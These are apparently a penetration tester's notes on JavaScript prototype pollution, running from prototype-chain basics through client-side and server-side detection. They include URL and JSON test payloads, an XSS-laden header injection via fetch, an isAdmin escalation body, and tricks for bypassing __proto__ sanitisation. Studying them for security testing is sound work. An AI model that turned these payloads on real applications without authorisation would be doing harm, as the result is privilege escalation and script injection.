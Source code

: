 # Prototype pollution

<details>

<summary>Introduction</summary>

```javascript
var my_object = {a:1, b:2}
```

Access the value of "a"

```javascript
console.log(my_object.a)     // Output: 1 
// functionally equivalent to... 
console.log(my_object["a"])  // Output: 1
```

Add a property

<pre class="language-javascript"><code class="lang-javascript"><strong>my_object["c"] = 3
</strong>// or... 
my_object.c = 3
</code></pre>

Every object has a `__proto__` (or prototype) property too which points to that object’s ‘prototype’, allowing it to inherit properties and methods.



If we try to access a property that doesn’t exist on `my_object`, JavaScript will next look to see if it is part of the next Object’s **proto** property

```javascript
empty_object = {} 
Object.prototype.x = 'test' 
console.log(empty_object.x) // test
```



```javascript
// Empty object. 
blank_object = {} 
// Object with a few properties
my_object = {a:1, b:2} 
// Define the 'z' property on the '__proto__' object of 'my_object': 
my_object["__proto__"]["z"] = "test" 

console.log(my_object.z)     // Output: test
console.log(blank_object.z)  // Output: test
console.log(Object.z)        // Output: test

// Note: here we add a 'z' property on the __proto__ object of 'my_object',
// that in this case is "Object".
```



```javascript
s = "test"
s.__proto__                         // String { .... }

// Define the 'z' property on the '__proto__' object of 's': 
s["__proto__"]["z"] = "bar"
console.log(s.z)                    // Output: bar

// Create another string ...
x = "test"
console.log(x.z)                    // Output: bar

// Create an object ...
obj = {}
console.log(obj.z)                    // Output: undefined

// Here we add a 'z' property on the __proto__ object of 's',
// that in this case is "String". So now all object all objects 
// that inherit "String" object have this property.
```







</details>

More info: [https://www.netspi.com/blog/technical-blog/web-application-pentesting/ultimate-guide-to-prototype-pollution/](https://www.netspi.com/blog/technical-blog/web-application-pentesting/ultimate-guide-to-prototype-pollution/)

## <mark style="color:purple;">Prototype pollution sources</mark> <a href="#prototype-pollution-sources" id="prototype-pollution-sources"></a>

The three most common JavaScript patterns that can lead to prototype pollution are merging, cloning, and value setting operations. Anytime an object is dynamically built from user input, there's a risk of prototype pollution.

<details>

<summary>Real World Example – jQuery Deparam </summary>

to do

</details>

## <mark style="color:purple;">Client-side prototype pollution (manual)</mark> <a href="#finding-client-side-prototype-pollution-sources-using-dom-invader" id="finding-client-side-prototype-pollution-sources-using-dom-invader"></a>

### <mark style="color:purple;">**Finding sources**</mark>  <a href="#finding-client-side-prototype-pollution-sources-manually" id="finding-client-side-prototype-pollution-sources-manually"></a>

**In the URL**

1. Using a common XSS source, such as the URL parameters or hash, set a \_\_proto\_\_ payload, like this:

```
https://example.com/?__proto__[polluted]=Polluted 
// or  
https://example.com/#__proto__[polluted]=Polluted 
// or  
https://example.com/?__proto__.polluted=Polluted 
```

2. Check `Object.prototype` in your browser console to see if the property was successfully added:

```javascript
Object.prototype.polluted // "Polluted" = successful pollution // undefined = failed attempt
```

3. Repeat with different sources

An important point is that the `[]` and `.` notations are not valid JavaScript in this context; they are defined by the developer. So the pattern you should look for in any source is ‘nesting’

Ridiculous example

```
https://example.com?firstParam=__prototype__&secondParam=polluted&thirdParam=Polluted 
https://example.com?param->__proto__->polluted=Polluted 
```

***

**In JSON**

Test any kind of JSON. E.g. a JWT could be parsed client-side for example, without any kind of validation.

```json
{ 
  "alg": "HS256", 
  "typ": "JWT", 
  "kid": "123", 
  "__proto__": { 
      "polluted": "Polluted" 
  } 
} 
```

### <mark style="color:purple;">**Finding gadgets**</mark>

Being able to affect the global `__proto__` property is not very useful unless you can use it to affect other parts of the code.

{% hint style="success" %}
**Tip**: Third-party libraries of prototype pollution gadgets [https://github.com/BlackFan/client-side-prototype-pollution](https://github.com/BlackFan/client-side-prototype-pollution)
{% endhint %}

## <mark style="color:purple;">Browser APIs</mark>

**Fetch**

```javascript
fetch('https://website.com/change-email', {
    method: 'POST',
    body: 'user=test&email=test%40test.test'
})
```

Basically, here are defined `method` and `body` properties, but there are a number of other possible properties that we've left undefined. So, if you find a source, you can pollute `Object.prototype` with your own `headers` property.

```
?__proto__[headers][x-username]=<img/src/onerror=alert(1)>
```

More info: [https://portswigger.net/web-security/prototype-pollution/client-side/browser-apis#prototype-pollution-via-fetch](https://portswigger.net/web-security/prototype-pollution/client-side/browser-apis#prototype-pollution-via-fetch)

***

**Object.defineProperty()**

```javascript
Object.defineProperty(config, 'transport_url', {configurable: false, writable: false});
```

Same thing. `defineProperty` accept other "descriptor" a.g. `value`.&#x20;

```javascript
/?__proto__[value]=foo
```

[https://portswigger.net/web-security/prototype-pollution/client-side/browser-apis#prototype-pollution-via-object-defineproperty](https://portswigger.net/web-security/prototype-pollution/client-side/browser-apis#prototype-pollution-via-object-defineproperty)

## <mark style="color:purple;">Client-side prototype pollution (with DOM Invader)</mark>

**Finding sources**

[https://portswigger.net/burp/documentation/desktop/tools/dom-invader/prototype-pollution](https://portswigger.net/burp/documentation/desktop/tools/dom-invader/prototype-pollution)

**Finding gadgets**

[https://portswigger.net/burp/documentation/desktop/tools/dom-invader/prototype-pollution#scanning-for-prototype-pollution-gadgets](https://portswigger.net/burp/documentation/desktop/tools/dom-invader/prototype-pollution#scanning-for-prototype-pollution-gadgets)

## <mark style="color:purple;">Server-side prototype pollution</mark> <a href="#finding-client-side-prototype-pollution-sources-using-dom-invader" id="finding-client-side-prototype-pollution-sources-using-dom-invader"></a>

Javascript in the backend

<details>

<summary>Introduction</summary>

An easy trap for developers is overlooking that a JavaScript for...in loop iterates over all of an object's enumerable properties, including inherited ones from the prototype chain.

```javascript
// Example with "object"
const myObject = { a: 1, b: 2 };

// pollute the prototype with an arbitrary property
Object.prototype.foo = 'bar';

// confirm myObject doesn't have its own foo property
myObject.hasOwnProperty('foo'); // false

// list names of properties of myObject
for(const propertyKey in myObject){
    console.log(propertyKey);
}

// Output: a, b, foo
```

```javascript
// Example with "array"
const myArray = ['a','b'];
Object.prototype.foo = 'bar';

for(const arrayKey in myArray){
    console.log(arrayKey);
}

// Output: 0, 1, foo
```

</details>

{% hint style="warning" %}
**Warning**: It's easy to unintentionally cause a denial-of-service (DoS), making testing in production risky. In addition, once a server-side prototype is polluted, the change persists for the entire lifetime of the Node process, with no way to reset it.
{% endhint %}

**Detection - (polluted property reflection)**

Attempt to pollute the global `Object.prototype` with an arbitrary property in a `POST` / `PUT` request

```http
POST /user/update HTTP/1.1
Host: vulnerable-website.com
...
{
    "user":"ithomas",
    "firstName":"isaiah",
    "lastName":"thomas",
    "__proto__":{
        "foo":"bar"
    }
}
```

```http
HTTP/1.1 200 OK
...
{
    "username":"ithomas",
    "firstName":"isaiah",
    "lastName":"thomas",
    "foo":"bar"
}
```

**Detection - (without polluted property reflection \[Automatic])**

Server-Side Prototype Pollution Scanner (Burp extension)

Right click on the request -> Extensions -> Server-Side Prototype Pollution Scanner -> Server-Side Prototype Pollution

## <mark style="color:purple;">Bypassing defenses</mark>

### <mark style="color:purple;">Via the constructor</mark>

A common defense is to remove any properties with the key `__proto__` from user-controlled objects before merging them.

Use `myObject.constructor.prototype` that is equivalent to `myObject.__proto__`

```
vulnerable-website.com/?foo.constructor.prototype=bar
```

```json
{
   "constructor":{
      "prototype":{
         "isAdmin":"true"
      }       
   }
}
```

### <mark style="color:purple;">Bypassing flawed key sanitization</mark>

Read the js code to understand the defenses. E.g. bypass the strips of `__proto__`

```
vulnerable-website.com/?__pro__proto__to__[foo]=bar
```
